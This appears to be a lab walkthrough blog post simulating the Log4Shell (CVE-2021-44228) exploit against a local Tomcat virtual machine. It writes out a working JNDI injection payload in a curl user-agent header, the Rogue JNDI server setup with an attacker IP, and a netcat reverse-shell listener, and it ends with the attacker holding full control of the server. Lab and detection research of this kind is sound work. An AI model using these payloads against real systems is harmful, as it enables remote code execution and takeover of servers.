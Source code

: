 ```yaml
---
layout: post
current: post
cover:  assets/images/blog/log4jshell_simulation/attacker_control_of_tomcat.png
navigation: True
title: 'CVE-2021-44228: Exploiting Log4j Vulnerabilities using Rogue JNDI'
date: 2022-01-12 01:00:00
tags: [Log4jShell]
class: post-template
subclass: 'post'
author: jose
---
```


In this blog post, we will share the steps that you can follow to simulate the use of **[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)** to exploit **Log4j** vulnerabilities using **Rogue JNDI** (Malicious LDAP Server). We will follow the steps provided within the [log4jshell-lab](https://github.com/Cyb3rWard0g/log4jshell-lab) GitHub repository by [Roberto Rodriguez](https://twitter.com/Cyb3rWard0g)

# Pre-Requisites

For the purpose of this blog, we will assume that you have already deployed the required virtual machines using VirtualBox. You can review our previous blog posts to set up the virtual environment.

- [CVE-2021-44228: Setting Up Virtual Machines for the Attacker and Victim](https://blog.openthreatresearch.com/setting_up_attacker_victim_machines)

- [VirtualBox: Creating an Ubuntu Desktop 20.04.3 LTS Virtual Machine](https://blog.openthreatresearch.com/virtualbox_ubuntu_desktop)

- [VirtualBox: Creating an Ubuntu Server 20.04.3 LTS Virtual Machine](https://blog.openthreatresearch.com/virtualbox_ubuntu_server)

# Tomcat Server Running Vulnerable Java Applications

We have deployed our Tomcat Server using an Ubuntu server 20.04.3 LTS virtual machine. This server is running different Java applications that are vulnerable to an attacker using the Log4j CVE-2021-44228 remote code exeution vulnerability.

Let's check the status of the tomcat service using the following commad:

```
service tomcat status
```

![](assets/images/blog/log4jshell_simulation/victim_checking_tomcat_service.png)


# Setting Up the Rogue JNDI Server

**Rogue JNDI** is a malicious **LDAP server** that provides a malicious **Java class** in response to the **LDAP request** from our **tomcat server** running a **vulnerable version of Log4j**. The Java class may contain, for example, malicious code that can start a **reverse shell connection** from our tomcat server. We will deploy a Rogue JNDI server in our attacker machine.

Using the **cd** command, change your current directory to *log4jshell-lab/attacker/rogue-jndi/*

Using the **docker build** command, build the docker image for the Rogue JNDI server

```
sudo su

cd log4jshell-lab/attacker/rogue-jndi/

docker build . -t rogue-jndi
```

![](assets/images/blog/log4jshell_simulation/attacker_building_docker_image.png)

Using the **docker run** command, start the Rogue JNDI server. Note that we are also defining the attacker IP address for the payload (192.168.50.4) and the ports that will be used by our server (1389 and 8888).

```
docker run --rm -ti -e PAYLOAD_IP=192.168.50.4 -p 1389:1389 -p 8888:8888 rogue-jndi
```

![](assets/images/blog/log4jshell_simulation/attacker_running_docker_image.png)

After starting the Rogue JNDI server, using a new **terminal** window in the same attacker machine, we will use the **nc** command to start a netcat listener to process the reverse shell connection.

```
sudo su

nc -lvnp 443
```

![](assets/images/blog/log4jshell_simulation/attacker_netcat_listener.png)

AWESOME!! We have deployed our **Rogue JNDI** LDAP server and our **netcat** listener. You should have two **terminal** windows like the ones showed in the image below.

![](assets/images/blog/log4jshell_simulation/attacker_rogue_jndi_netcat.png)

# Exploiting Log4j vulnerabilities

When we were checking the availability of the Java applications in our Tomcat server, we needed to complete 2 steps:

- Stablish a SSH connection to our Tomcat server using the user, IP address and password for our server.

- Perform a **GET** request using the API for each application.

However, since the attacker does not have the credentials for our Tomcat server, it cannot stablish a SSH connection. If we perform the GET request using the API for our application to the Tomcat server, we can see that the appication is available, but we do not have control over the Tomcat server. Note that we are using the IP address for our Tomcat server and not the local IP 127.0.0.1 .

```
curl -X GET 192.168.50.5:8080/Log4j-2.14.0-SNAPSHOT/api
```

![](assets/images/blog/log4jshell_simulation/attacker_attempt_get_request.png)

We will now add a header to our GET request. The header of our request will contain a LDAP request that points to our Rogue JNDI server (192.168.50.4:1389)

```
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.50.4:1389/o=tomcat}' 192.168.50.5:8080/Log4j-2.14.0-SNAPSHOT/api
```

![](assets/images/blog/log4jshell_simulation/attacker_control_of_tomcat.png)

As you can see in the image above, after executing our GET request (With Header), we got a reverse shell connection from the Tomcat server to our attacker machine. We now have full control of the server!!

# References
- **GitHub Repository**: [https://github.com/Cyb3rWard0g/log4jshell-lab](https://github.com/Cyb3rWard0g/log4jshell-lab)
- **Research Notes**: [https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/research-notes](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/research-notes)
- **CVE-2021-44228 Simulation**: [https://github.com/Cyb3rWard0g/log4jshell-lab/blob/main/research-notes/2021-12-11_01-CVE-2021-44228-simulation.md](https://github.com/Cyb3rWard0g/log4jshell-lab/blob/main/research-notes/2021-12-11_01-CVE-2021-44228-simulation.md)
- **Attacker System**: [https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker)
- **Victim System**: [https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/victim](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/victim)
- **YouTube video (Installing Rogue JNDI on Kali Linux)**: [https://youtu.be/F74Grm9PRYQ](https://youtu.be/F74Grm9PRYQ)